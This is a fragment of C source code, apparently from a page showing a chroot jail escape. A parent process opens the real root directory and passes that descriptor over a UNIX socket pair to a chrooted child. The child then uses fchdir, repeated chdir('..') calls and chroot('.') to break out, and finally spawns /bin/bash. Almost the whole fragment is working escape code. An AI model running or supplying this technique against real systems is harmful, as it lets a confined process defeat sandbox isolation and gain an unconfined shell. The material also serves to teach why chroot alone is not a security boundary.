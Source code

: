 ```c
        exit(EXIT_FAILURE);
    }

    if (socketpair(AF_UNIX, SOCK_DGRAM, 0, sockpair) < 0) {
        perror("socketpair");
        exit(EXIT_FAILURE);
    }

    pid = fork();
    if (pid < 0) {
        perror("fork");
        exit(EXIT_FAILURE);
    }

    if (pid == 0) {
        // Child process
        close(sockpair[0]);

        // Change root to a new directory (must be root to run chroot)
        if (chroot(CHROOT_PATH) < 0) {
            perror("chroot failed in child process");
            exit(EXIT_FAILURE);
        }
        if (chdir("/") < 0) {
            perror("chdir after chroot");
            exit(EXIT_FAILURE);
        }
        printf("Child: Chroot changed to %s\n", CHROOT_PATH);

        // Receive FD from parent
        int received_fd = receive_fd(sockpair[1]);
        printf("Child: Received FD %d from parent\n", received_fd);

        // Escape chroot jail
        if (fchdir(received_fd) < 0) {
            perror("fchdir");
            exit(EXIT_FAILURE);
        }

        printf("Child: Escaped chroot jail\n");
        for(int x = 0; x < 1000; x++) chdir("..");
        chroot(".");

        // Verify escape by listing current directory
        char cwd[1024];
        if (getcwd(cwd, sizeof(cwd)) != NULL) {
            printf("Child: Current working directory: %s\n", cwd);
            system("/bin/bash");  // Optionally, open bash shell for the child
        } else {
            perror("getcwd");
        }

        close(sockpair[1]);
    } else {
        // Parent process
        close(sockpair[1]);

        // Open a folder outside the chroot (e.g., /)
        int fd = open("/", O_RDONLY);
        if (fd < 0) {
            perror("open");
            exit(EXIT_FAILURE);
        }
```